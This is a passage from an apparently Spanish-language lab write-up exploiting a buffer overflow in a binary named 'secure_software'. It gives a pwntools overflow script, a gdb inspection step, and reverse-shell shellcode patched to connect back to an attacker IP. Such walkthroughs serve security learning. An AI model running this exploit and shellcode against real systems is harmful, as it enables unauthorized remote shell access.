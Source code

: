 ```bash
#!/usr/bin/env python3

from pwn import *

log.warning(f'Usage: python3 {sys.argv[0]} [ip:port]')
context.binary = 'secure_software'

payload = "A"*300 + "B"*4 + "C"*100 

if len(sys.argv) > 1:
    ip, port = sys.argv[1].split(':')
    p = remote(ip, port)
else:
    p = process(context.binary.path)

p.sendlineafter(b'Enter data: ', payload)
p.interactive()
```

En **gdb** vamos a ver los siguientes 30bytes después del registro **$esp.** Para ello ejecutamos `x/30x $esp`:

![image](/assets/images/insecure/7.png)

Para terminar vamos a meter un shellcode que nos de una reverse shell. Usaremos el siguente shellcode [https://www.exploit-db.com/shellcodes/50125](https://www.exploit-db.com/shellcodes/50125) . Como vemos en las notas habría que modificar los bytes para incorporar nuestra dirección IP a partir del byte 26. 

```bash
"\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x03\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\x31\xc0\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf0\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

 /* Default IP and port at 26th and 32nd byte index: \x7f\x01\x01\x01 \x11\x5c */
```

Para convertir nuestra IP a bytes usaremos `python3 -c "import socket; print(socket.inet_aton('172.17.0.1'))"` que nos devolverá **b'\xac\x11\x00\x01' .** La shellcode quedaria asi:

```bash
"\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x03\x68\xac\x11\x00\x01\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\x31\xc0\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf0\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```
